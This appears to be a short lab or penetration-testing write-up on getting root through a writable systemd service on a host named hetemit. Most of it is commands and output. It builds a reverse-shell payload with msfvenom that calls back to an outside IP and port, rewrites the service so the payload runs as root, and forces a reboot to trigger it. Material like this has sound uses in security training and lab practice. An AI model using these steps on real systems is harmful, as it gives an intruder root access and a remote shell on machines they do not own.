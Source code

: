 ```yaml
---
description: Root access with writable services.
---
```


# Writable services

```
[cmeeks@hetemit ~]$ sudo -l

User cmeeks may run the following commands on hetemit:
    (root) NOPASSWD: /sbin/halt, /sbin/reboot, /sbin/poweroff

You have write privileges over /etc/systemd/system/pythonapp.service
```

The most important parameters here are :&#x20;

• User : The user that the service will run as.

• Execstart : It specifies the command that will run when the service starts.

Now we want to get shell as root. There are many ways to do so with systemd services.

```
[cmeeks@hetemit ~]$ cat /etc/systemd/system/pythonapp.service
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
WorkingDirectory=/home/cmeeks/restjson_hetemit
ExecStart=flask run -h 0.0.0.0 -p 50000
TimeoutSec=30
RestartSec=15s
User=cmeeks
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

```
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.49.179 LPORT=80 -f elf -o reverse.elf
```

```
[cmeeks@hetemit ~]$ echo "
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
WorkingDirectory=/home/cmeeks/restjson_hetemit
ExecStart=/tmp/reverse.elf
TimeoutSec=30
RestartSec=15s
User=root
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
" > /etc/systemd/system/pythonapp.service

[cmeeks@hetemit ~]$ sudo reboot --reboot -f
```
